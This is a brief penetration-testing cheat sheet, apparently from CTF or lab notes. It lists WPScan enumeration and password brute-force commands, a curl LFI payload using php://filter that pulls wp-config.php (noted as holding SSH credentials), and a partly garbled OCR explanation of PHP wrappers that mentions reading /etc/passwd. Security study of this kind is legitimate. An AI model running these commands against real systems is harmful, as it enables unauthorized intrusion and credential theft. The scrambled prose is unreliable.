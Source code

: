 
```
wpscan --url http://alvida-eatery.org/ --enumerate ap,u,t
```
#### WPScan

```c
wpscan --url https://<RHOST> --enumerate u,t,p
wpscan --url https://<RHOST> --plugins-detection aggressive
wpscan --url https://<RHOST> --disable-tls-checks
wpscan --url https://<RHOST> --disable-tls-checks --enumerate u,t,p
wpscan --url http://<RHOST> -U <USERNAME> -P passwords.txt -t 50
```

Get wordpress config through LFI vuln, there were SSH creds in here...
```c
curl "172.16.1.10/nav.php?page=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php"| base64 -d > wp-config.php
```

PHP provides various wrappers, which can be used for easier access of files, protocols or streams.
A complete list of wrappers can be found here. The wrapper is enabled by default and is php:// used to interact with IO streams. For example: php://stdin and php://stdout can be used to  access  input and output streams for the process, while and are php://input php://output used to access  request data. A useful wrapper is , which can be chained with php://filter multiple filters to achieve  the desired output. For example, the filter reads the resource php://filter/read=/resource=/etc/passwd and outputs the contents. The filter can be used to  process the input with /etc/passwd read various string operations, such as base64 encoding, 
ROT13 encoding etc. The following filters will convert the contents of to base64 and ROT13 respectively.